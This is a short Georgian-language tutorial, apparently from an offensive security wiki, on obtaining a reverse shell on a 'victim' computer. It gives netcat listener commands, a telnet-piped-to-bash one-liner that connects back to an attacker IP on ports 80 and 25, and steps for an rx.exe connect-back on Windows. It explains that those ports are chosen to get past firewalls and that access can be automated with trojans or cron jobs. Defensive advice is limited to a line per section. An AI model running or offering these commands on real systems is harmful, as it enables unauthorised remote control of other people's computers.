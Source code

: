 # უკუღმა ტელნეტის სესია

## netcat (ვინდოუსი ან იუნიქსი)

ეხლა გაჩვენებთ როგორ უნდა გააკეთოთ netcat-ით reverse telnet შელი მსხვერპლის კომპიუტერიდან.

**შენს კომპიუტერში (თავდამსხმელი):**

გაუშვი პირველი შელში: გაუშვი netcat-ი ისე რომ 80-ე პორტზე ელოდოს კლიენტს.

```
nc -l -n -v -p 80
```

გაუშვი მეორე შელში: გაუშვი netcat-ი ისე რომ 25-ე პორტზე ელოდოს კლიენტს.

```
nc -l -n -v -p 25
```

**მსხვერპლის კომპიუტერში ქენი:**

ქენი:

```
/usr/bin/telnet <თავდამსხმელის აიპი> 80 | /bin/bash | /usr/bin/telnet <თავდამსხმელის აიპი> 25
```

თავდამსხმელის კომპიუტერში, რომელიც 80 პორტზე უსმენს, შეგიძლია ბრძანებების მიცემა ისე როგორც მსხვერპილის კომპიუტერის წინ ყოფილხარ. რეზულტატი მეორე შელზე გამოჩდება.

```
-l: listening (სმენა) 
-p: port (პორტი) 
-t: telnet (ტელნეტი)
```

უმრავლესი ადმინისტრატორი ისე აკონფიგრირებს ﬁrewall-ს რომ 80 (HTTP) და 25 (SMTP) შესღუდული არ იყოს. ამიტომაც არიან ეს პორტები შერჩეულნი.

მსხვერპლის კომპიუტერთან თავდამსხმელს ავტომატურად შეუძლია დაუკავშურდეს ტელნეტით, ტროიანის გამოყენებით ან იუნიქსის შემთხვევაში cron job-ით.

## დაცვა

telnet-ის გამორთვა, bastion computers.

# rx.exe (ვინდოუსი)

## მაგალითი

**ეტაპი 1:** თავდამსხმელის კომპიუტერში გაუშვი netcat-ი რომ დაელოდო კავშირს.

```
nc -l -n -v -p 8080
```

**ეტაპი 2:** გაუშვი netcat-ი მსხვერპლის კომპიუტერში.

**ეტაპი 3:** მსხვერპლის კომპიუტერში გაუშვი rx.exe:
rx.exe <თავდამსხმელის აიპი>

**ეტაპი 4:** თავდამსხმელის შეუძლია მსხვერპლის კომპიუტერი აკონტროლოს და ბრძანებები გაუშვას მსხვერპლის კომპიუტერში.

მსხვერპლის კომპიუტერი თავდამსხმელს შეიძლება ავტომატურად დაუკავშურდეს ტელნეტით, ტროიანის გამოყენებით ან იუნიქსის შემთხვევაში cron job-ით.

## დაცვა

განახლებული ანტივირუსი, ძლიერი ACL-ები.

